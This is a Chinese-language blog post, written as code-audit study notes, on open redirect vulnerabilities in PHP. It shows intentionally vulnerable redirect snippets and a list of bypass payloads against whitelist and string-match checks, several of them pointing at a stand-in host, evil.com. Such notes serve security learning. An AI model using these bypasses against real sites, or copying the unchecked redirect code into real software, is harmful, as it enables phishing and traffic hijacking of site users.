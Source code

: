 ```yaml
---
title: "[代码审计]PHP篇:URL跳转漏洞"
desc: TonyD0g
date: 2022-01-26 22:26:56
tags: 代码审计
toc: true
---
```

<font size=4 >

<!-- more -->

## 1.URL任意跳转:

未做任何限制，传入任何网址即可进行跳转:
漏洞示例代码:
```
<?php  
  $redirect_url = $_GET['url'];
  header("Location: " . $redirect_url);
  exit;
?>
```

**Payload：?url=http://www.baidu.com，即可跳转到百度首页**

## 2.编码解码:

**比如base64解码:**
```
<?php  
  $url = base64_decode($_GET['url']);
  header("Location: " . $url);
?>
```

**Paylod：?url=aHR0cDovL3d3dy5iYWlkdS5jb20=**

## 3.常见的绕过姿势:

**利用默认协议:**
```
?url=\\www.baidu.com
?url=\/www.baidu.com
?url=\\\\www.baidu.com     等价于：?url=http://www.baidu.com
```

**前缀式:**
```
利用问号?： ?url=http://www.evil.com?www.aaa.com
利用井号#： http://www.aaa.com?returnUrl=http://www.evil.com#www.aaa.com
```

**其他形式:**
```
?url=http://www.baidu.com\aaa.com
?url=http://www.baidu.com\\aaa.com
```

**后缀式:**
```
利用@符号：?url=http://www.aaa.com@www.evil.com
其他形式： http://www.aaa.com.evil.com
```

**其他思路:**
```
使用IP地址、IPv6地址、更换ftp、gopher协议
```

## 4.白名单限制绕过:

**白名单限制:**
比如:
?redirect_uri=http://www.baidu.com
尝试进行跳转到其他网站时发现做了白名单限制，非QQ域名禁止跳转，会报错说跳转链接非法

**利用问号绕过限制:**
```
?redirect_uri=http://www.baidu.com
?redirect_uri=http://www.qq.com?http://www.baidu.com
?redirect_uri=http://www.baidu.com?&http://www.qq.com
?redirect_uri=http://www.baidu.com/test.html?&http://www.qq.com
?redirect_uri=http://www.baidu.com\test.html?&http://www.qq.com
```
**在代码中判断是否为目标域名，但开发小哥哥们喜欢用字符串包含来判断**
```
//下面的语句都返回"http://www.aaa.com.evil.com"

http://www.aaa.com?returnUrl=http://www.aaa.com.evil.com
http://www.aaa.com?returnUrl=http://www.evil.com/www.aaa.com
http://www.aaa.com?returnUrl=http://www.xxxaaa.com
```
**利用反斜线:**
```
http://www.aaa.com?returnUrl=http://www.evil.comwww.aaa.com
http://www.aaa.com?returnUrl=http://www.evil.com\www.aaa.com
多次跳转,即aaa公司信任ccc公司，ccc公司同样存在漏洞或者提供跳转服务:
http://www.aaa.com?returnUrl=http://www.ccc.com?jumpto=http://www.evil.com
实际挖掘过程中还可以将上述方法混合使用，甚至使用URL编码、ip地址替代域名等手段。
```

## 学习来源:
```
公众号Bypass 《PHP代码审计入门笔记》
```
</font>